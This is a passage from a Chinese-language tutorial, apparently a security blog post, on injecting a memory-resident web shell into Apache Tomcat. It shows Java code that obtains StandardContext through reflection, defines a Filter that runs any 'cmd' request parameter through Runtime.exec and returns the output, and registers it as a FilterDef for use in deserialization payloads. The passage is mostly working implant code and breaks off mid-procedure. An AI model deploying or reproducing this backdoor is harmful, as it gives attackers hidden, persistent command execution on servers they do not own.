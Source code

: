         
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
        ```
    
        获取到standardContext就可以很方便的将其他对象添加在Tomcat Context中。
    
        [如果没有request对象的话可以从当前线程中获取StandardContext](https://zhuanlan.zhihu.com/p/114625962)
    
        当然也可以从MBean中获取，可以参考下面文章
    
        《[TOMCAT FILTER 之动态注入](https://scriptboy.cn/p/tomcat-filter-inject/#)》
    
        《[通过Mbean获取context](https://paper.seebug.org/1441/#2mbeancontext)》
    
        
    
    **2. 创建Filter**
    
    直接在代码中实现Filter实例，需要重写三个重要方法，init、doFilter、destory，如下面代码所示：
    
    ```java
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null){
                InputStream in = Runtime.getRuntime().exec(req.getParameter("cmd")).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                return;
            }
            filterChain.doFilter(servletRequest,servletResponse);
        }
        @Override
        public void destroy() {
        }
    };
    ```
    
    在doFilter方法中实现命令执行回显功能。

**3. 创建filterDef封装Filter对象，并添加到FilterDefs中**

为了之后将内存马融合进反序列化payload中，这里特意使用反射获取FilterDef对象。如果使用的是jsp或者是非反序列化的利用，那么可以直接使用new创建对象。

```java
Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
Constructor declaredConstructors = FilterDef.getDeclaredConstructor();
FilterDef o = (org.apache.tomcat.util.descriptor.web.FilterDef)declaredConstructors.newInstance();
o.setFilter(filter);
o.setFilterName(FilterName);
o.setFilterClass(filter.getClass().getName());
standardContext.addFilterDef(o);
```
